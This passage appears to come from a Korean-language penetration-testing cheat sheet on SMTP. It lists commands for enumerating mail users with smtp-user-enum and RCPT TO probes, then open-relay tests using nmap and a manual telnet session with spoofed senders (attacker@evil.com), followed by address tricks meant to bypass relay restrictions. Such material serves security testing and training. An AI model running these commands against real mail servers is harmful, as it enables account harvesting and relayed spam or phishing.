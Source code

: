 ```bash
RCPT TO: root@{IP}
RCPT TO: admin@{IP}
RCPT TO: user@{IP}
RCPT TO: test@{IP}

# 자동화된 사용자 열거
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t {IP}
smtp-user-enum -M EXPN -U /usr/share/wordlists/metasploit/unix_users.txt -t {IP}
smtp-user-enum -M RCPT -U /usr/share/wordlists/metasploit/unix_users.txt -t {IP}

# 커스텀 사용자 리스트로 열거
smtp-user-enum -M VRFY -U custom_users.txt -t {IP}

# 대소문자 변형 테스트
smtp-user-enum -M VRFY -u root,ROOT,Root,admin,ADMIN,Admin -t {IP}
```

### 📬 메일 릴레이 테스트

```bash
# Nmap을 이용한 릴레이 테스트
nmap --script smtp-open-relay -p 25 {IP}

# 수동 릴레이 테스트
telnet {IP} 25
HELO attacker.com
MAIL FROM: spoof@external.com
RCPT TO: victim@external.com
DATA
Subject: Relay Test

This is a relay test.
.
QUIT

# 다양한 릴레이 패턴 테스트
# 패턴 1: 완전한 외부 주소
MAIL FROM: attacker@evil.com
RCPT TO: victim@external.com

# 패턴 2: 내부에서 외부로
MAIL FROM: root@{IP}
RCPT TO: victim@external.com

# 패턴 3: 외부에서 내부로
MAIL FROM: attacker@evil.com
RCPT TO: root@{IP}

# 패턴 4: @ 기호 우회 시도
RCPT TO: victim%external.com@{IP}
RCPT TO: victim@external.com@{IP}
RCPT TO: "@external.com:victim@target.com"
```
